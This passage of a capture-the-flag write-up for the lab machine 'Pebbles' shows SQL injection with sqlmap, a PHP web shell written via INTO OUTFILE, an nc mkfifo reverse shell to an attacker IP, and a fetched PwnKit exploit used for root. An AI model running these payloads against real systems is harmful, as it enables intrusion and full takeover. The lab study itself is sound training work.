[10:09:06] [INFO] testing 'MySQL time-based blind - Parameter replace (bool)'
[10:09:06] [INFO] testing 'MySQL time-based blind - Parameter replace (ELT)'
[10:09:06] [INFO] testing 'MySQL time-based blind - Parameter replace (MAKE_SET)'
[10:09:06] [INFO] testing 'MySQL >= 5.0.12 time-based blind - ORDER BY, GROUP BY clause'
[10:09:06] [INFO] testing 'MySQL < 5.0.12 time-based blind - ORDER BY, GROUP BY clause (BENCHMARK)'
[10:09:06] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:09:06] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:09:07] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[10:09:08] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[10:09:09] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[10:09:12] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[10:09:13] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[10:09:14] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[10:09:14] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[10:09:15] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[10:09:16] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[10:09:17] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[10:09:18] [INFO] checking if the injection point on POST parameter 'limit' is a false positive
POST parameter 'limit' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 1958 HTTP(s) requests:
---
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#&minTime=1775629310.411151
---
[10:11:01] [INFO] the back-end DBMS is MySQL
[10:11:01] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[10:11:01] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.246.52'

[*] ending @ 10:11:01 /2026-04-08/
```

We have confirmed the SQLi vulnerability.

### Get an OS shell

But we would of course like to have an OS shell

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ sqlmap -r post_req.txt --os=linux --dbms=mysql -p limit --os-shell
        ___
       __H__                                                                                                                                                                                      
 ___ ___[)]_____ ___ ___  {1.10.2#stable}                                                                                                                                                         
|_ -| . [.]     | .'| . |                                                                                                                                                                         
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:18:22 /2026-04-08/

[10:18:22] [INFO] parsing HTTP request from 'post_req.txt'
[10:18:22] [INFO] testing connection to the target URL
[10:18:23] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#&minTime=1775629310.411151
---
[10:18:23] [INFO] testing MySQL
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[10:24:15] [INFO] confirming MySQL
[10:24:15] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[10:24:25] [INFO] adjusting time delay to 4 seconds due to good response times
[10:24:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[10:24:25] [INFO] testing if current user is DBA
[10:24:25] [INFO] fetching current user
[10:24:25] [INFO] retrieved: ro
[10:25:35] [ERROR] invalid character detected. retrying..
[10:25:35] [WARNING] increasing time delay to 5 seconds
ot@localhost
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[10:30:11] [INFO] checking if UDF 'sys_exec' already exist
[10:30:11] [INFO] checking if UDF 'sys_eval' already exist
[10:30:11] [INFO] detecting back-end DBMS version from its banner
[10:30:11] [INFO] retrieved: 5.7.30-0ubuntu0.16.04.1
[10:38:33] [INFO] retrieving MySQL plugin directory absolute path
[10:38:33] [INFO] retrieved: /usr/lib/mysql/plugin/
[10:45:59] [INFO] retrieved: 8040
[10:46:46] [INFO] the local file '/tmp/sqlmap4g8s6awc91618/lib_mysqludf_sysw429o2rh.so' and the remote file '/usr/lib/mysql/plugin/libsltzp.so' have the same size (8040 B)
[10:46:46] [INFO] creating UDF 'sys_exec' from the binary UDF file
[10:46:47] [INFO] creating UDF 'sys_eval' from the binary UDF file
[10:46:47] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[10:46:47] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] 

[10:48:05] [INFO] retrieved: uid=0(root) gid=0(root) groups=0(root)
command standard output: 'uid=0(root) gid=0(root) groups=0(root)'
os-shell> cat /root/proof.txt
do you want to retrieve the command standard output? [Y/n/a] 

[11:02:53] [INFO] retrieved: 68
[11:03:39] [INFO] adjusting time delay to 4 seconds due to good response times
f5df6
[11:05:22] [ERROR] invalid character detected. retrying..
[11:05:22] [WARNING] increasing time delay to 5 seconds
f<REDACTED>5
command standard output: '6<REDACTED>5'
os-shell> exit
[11:27:03] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_exec'? [Y/n] 

do you want to remove UDF 'sys_eval'? [Y/n] 

[11:27:12] [INFO] database management system cleanup finished
[11:27:12] [WARNING] remember that UDF shared object files saved on the file system can only be deleted manually
[11:27:12] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.246.52'

[*] ending @ 11:27:12 /2026-04-08/
```

We get the flag but this shell is very SLOW to work with.

### Get a web shell

Instead we can also manually create a webshell in Burp's Repeatrer with this request

```text
POST /zm/index.php HTTP/1.1
Host: 192.168.246.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
X-Request: JSON
Content-type: application/x-www-form-urlencoded; charset=utf-8
Content-Length: 130
Origin: http://192.168.246.52
Connection: keep-alive
Referer: http://192.168.246.52/zm/index.php?view=log
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=bcviaod9q75g00qviienn0n6j5

view=request&request=log&task=query&limit=100;SELECT "<?php echo system($_GET['cmd']); ?>" into OUTFILE "/var/www/html/shell.php"
```

Then we verify functionality with `curl`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ curl 'http://192.168.246.52:3305/shell.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
```

Note that we access **port 3305** and that we are now only running as **www-data**!

### Get a reverse shell

Netcat seems to be installed on the machine already

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ curl 'http://192.168.246.52:3305/shell.php?cmd=which+nc'      
/bin/nc
/bin/nc  
```

so we will use that to start a `nc mkfifo` reverse shell from [revshells.com](https://www.revshells.com/)

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.218 80 >/tmp/f`

URL-encoded: `rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.45.218%2080%20%3E%2Ftmp%2Ff`

Port 80 is used since that was one of the open ports found on the target machine.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ curl 'http://192.168.246.52:3305/shell.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.45.218%2080%20%3E%2Ftmp%2Ff'

```

Back at our netcat listener, we have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.246.52] 44490
bash: cannot set terminal process group (1278): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pebbles:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@pebbles:/var/www/html$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
www-data@pebbles:/var/www/html$ tty
tty
not a tty
www-data@pebbles:/var/www/html$ which python3
which python3
/usr/bin/python3
www-data@pebbles:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tml$ python3 -c 'import pty;pty.spawn("/bin/bash")'                         
www-data@pebbles:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 80

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ stty raw -echo ; fg ; reset 
[1]  + continued  nc -lvnp 80

www-data@pebbles:/var/www/html$ export SHELL=/bin/bash
www-data@pebbles:/var/www/html$ export TERM=xterm-256color
www-data@pebbles:/var/www/html$ stty rows 200 columns 200
www-data@pebbles:/var/www/html$ ^C
www-data@pebbles:/var/www/html$ 
```

Now we have a stable shell that survives `Ctrl + C`!

### Enumeration for privesc

During the enumeration a vulnerable version of policykit was discovered (versions <= 0.105-31 is vulnerable to PwnKit)

```bash
www-data@pebbles:/var/www/html$ apt list policykit-1
Listing... Done
policykit-1/xenial-updates,xenial-security,now 0.105-14.1ubuntu0.5 amd64 [installed]
N: There is 1 additional version. Please use the '-a' switch to see it
www-data@pebbles:/var/www/html$ 
```

We transfer the [exploit](https://github.com/joeammond/CVE-2021-4034) to the target machine

```bash
www-data@pebbles:/var/www/html$ cd /tmp
www-data@pebbles:/tmp$ wget http://192.168.45.218/CVE-2021-4034.py
--2026-04-08 05:29:00--  http://192.168.45.218/CVE-2021-4034.py
Connecting to 192.168.45.218:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3262 (3.2K) [text/x-python]
Saving to: 'CVE-2021-4034.py'

CVE-2021-4034.py                                    0%[                                                                                                              ]       0  --.-KB/s          CVE-2021-4034.py                                  100%[=============================================================================================================>]   3.19K  --.-KB/s    in 0s      

2026-04-08 05:29:00 (561 MB/s) - 'CVE-2021-4034.py' saved [3262/3262]

www-data@pebbles:/tmp$ 
```

### Get a root shell

Then we make the script executable and run it to get a root shell

```bash
www-data@pebbles:/tmp$ chmod +x CVE-2021-4034.py 
www-data@pebbles:/tmp$ ./CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# 
```

### Get the root flag

Finally, we can get the root flag again

```bash
# cd /root
# ls -l
total 4
-rw-r--r-- 1 root root 33 Apr  8 02:04 proof.txt
# cat proof.txt
6<REDACTED>5
# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [apt - Linux manual page](https://linux.die.net/man/8/apt)
- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [CVE-2021-4034 - Joe Ammond - GitHub](https://github.com/joeammond/CVE-2021-4034)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [mkfifo - Linux manual page](https://man7.org/linux/man-pages/man1/mkfifo.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [pkexec - Linux manual page](https://linux.die.net/man/1/pkexec)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Reverse Shell Generator - Homepage](https://www.revshells.com/)
- [searchsploit - Homepage](https://www.exploit-db.com/searchsploit)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [SQL Injection - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL injection - Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)
- [sqlmap - Homepage](https://sqlmap.org/)
- [sqlmap - Kali Tools](https://www.kali.org/tools/sqlmap/)
- [stty - Linux manual page](https://man7.org/linux/man-pages/man1/stty.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tty - Linux manual page](https://man7.org/linux/man-pages/man1/tty.1.html)
- [vsftpd - Wikipedia](https://en.wikipedia.org/wiki/Vsftpd)
- [Web shell - Wikipedia](https://en.wikipedia.org/wiki/Web_shell)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
- [which - Linux manual page](https://linux.die.net/man/1/which)
